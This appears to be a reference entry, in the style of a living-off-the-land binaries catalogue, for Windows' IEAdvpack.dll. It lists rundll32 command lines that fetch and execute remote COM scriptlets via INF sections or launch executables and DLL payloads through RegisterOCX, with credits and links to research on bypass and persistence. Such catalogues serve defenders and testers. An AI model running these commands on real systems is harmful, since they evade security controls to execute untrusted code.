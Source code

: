 ## Ieadvpack.dll
* Functions: Execute
```

rundll32.exe IEAdvpack.dll,LaunchINFSection c:\\test.inf,DefaultInstall_SingleUser,1,
Remote fetch and execute a COM Scriptlet by calling an information file directive (Section name specified).

rundll32.exe IEAdvpack.dll,LaunchINFSection test.inf,,1,
Remote fetch and execute a COM Scriptlet by calling an information file directive (DefaultInstall section implied).

rundll32.exe IEAdvpack.dll,RegisterOCX calc.exe
Launch executable by calling the RegisterOCX function.

rundll32.exe IEAdvpack.dll,RegisterOCX test.dll
Launch a DLL payload by calling the RegisterOCX function.
```
   
* Resources:   
  * https://twitter.com/pabraeken/status/991695411902599168
  * https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
  * https://twitter.com/0rbz_/status/974472392012689408
   
* Full path:   
  * c:\windows\system32\ieadvpack.dll
  * c:\windows\sysWOW64\ieadvpack.dll
   
* Notes: Thanks to Pierre-Alexandre Braeken - @pabraeken (RegisterOCX - Cmd), Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL)  
   
